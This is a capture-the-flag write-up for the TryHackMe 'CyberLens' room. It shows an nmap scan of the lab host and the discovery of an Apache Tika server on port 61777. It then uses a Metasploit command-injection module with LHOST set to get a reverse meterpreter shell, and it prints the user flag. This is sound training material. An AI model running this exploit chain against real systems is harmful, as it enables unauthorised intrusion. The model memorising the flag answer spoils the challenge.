 # CyberLens

### CyberLens
Be sure to add the IP to your /etc/hosts file: `sudo echo '10.10.46.248 cyberlens.thm' >> /etc/hosts`<br />
After an initial scan to check what ports are open, this is the result of a more targeted scan: 

    nmap 10.10.46.248 -p80,135,139,445,3389 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 20:14 CEST
    Nmap scan report for cyberlens.thm (10.10.46.248)
    Host is up (0.045s latency).
    
    PORT     STATE SERVICE       VERSION
    80/tcp   open  http          Apache httpd 2.4.57 ((Win64))
    |_http-server-header: Apache/2.4.57 (Win64)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: CyberLens: Unveiling the Hidden Matrix
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: CYBERLENS
    |   NetBIOS_Domain_Name: CYBERLENS
    |   NetBIOS_Computer_Name: CYBERLENS
    |   DNS_Domain_Name: CyberLens
    |   DNS_Computer_Name: CyberLens
    |   Product_Version: 10.0.17763
    |_  System_Time: 2024-09-30T18:14:34+00:00
    |_ssl-date: 2024-09-30T18:14:42+00:00; -2s from scanner time.
    | ssl-cert: Subject: commonName=CyberLens
    | Not valid before: 2024-09-29T18:11:49
    |_Not valid after:  2025-03-31T18:11:49
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-time: 
    |   date: 2024-09-30T18:14:37
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -2s, deviation: 0s, median: -2s

Opening the webserver, it seems like it is a service used to get metadata from files, specifically image files.<br />
![image](https://github.com/user-attachments/assets/eed84af8-6657-4663-9e1f-acb6e1439792)<br />
However, as you can see from the image above, one can also upload .sh files, and the service correctly labels it as sh application. 
However, after enumerating a bit the website and capturing requests with burpsuite, I noticed something interesting: <br />
![image](https://github.com/user-attachments/assets/169a4eb3-8c42-42d4-86d5-dbb990934eae)<br />
I'm making requests to port 61777 of the webserver. So I immediatly tried to scan that port to check what it is: <br />
![image](https://github.com/user-attachments/assets/18a324db-e21a-4301-acf3-d8b2a8e1a19b)<br />
Jetty is simply a web server. So I visited `cyberlens.thm:61777` to see what comes up:<br />
![image](https://github.com/user-attachments/assets/ccf85c00-4d99-4bd9-987f-057283d2d1f0)<br />
Apache Tika is an open source library used to detect and extract metadata from files. This page is apparently showing us the endpoints that we can use to interact with it. And here's an interesting endpoint: <br />
![image](https://github.com/user-attachments/assets/a6891ab3-01c4-4961-8bfe-6fd97d766fe6)<br />
![image](https://github.com/user-attachments/assets/7afb34cb-bc52-433f-80e1-b765a422ad8c)<br />
That endpoint gave me the version of the Tika software that's being used(PS, I just realized that this information was also given by the scan on port 61777, but I'm stupid). After some enumeration, I found out that this Tika version is vulnerable to command injection, and the exploit is available on metasploit. The module name is `windows/http/apache_tika_jp2_jscript)`. 
Correctly set up the options, in my case: 

    set LHOST 10.11.85.53
    set rhosts 10.10.46.248
    set rport 61777
    run
And I got a meterpreter session. Inside `C:\Users\Cyberlens\Desktop` we can find user.txt(flags are at the end of this writeup): <br />
![image](https://github.com/user-attachments/assets/727249b4-5fee-43f9-9a8f-385aeb1a4f81)<br />

- What is the user flag?  `THM{T1k4-CV3-f0r-7h3-w1n}`
- What is the admin flag? 
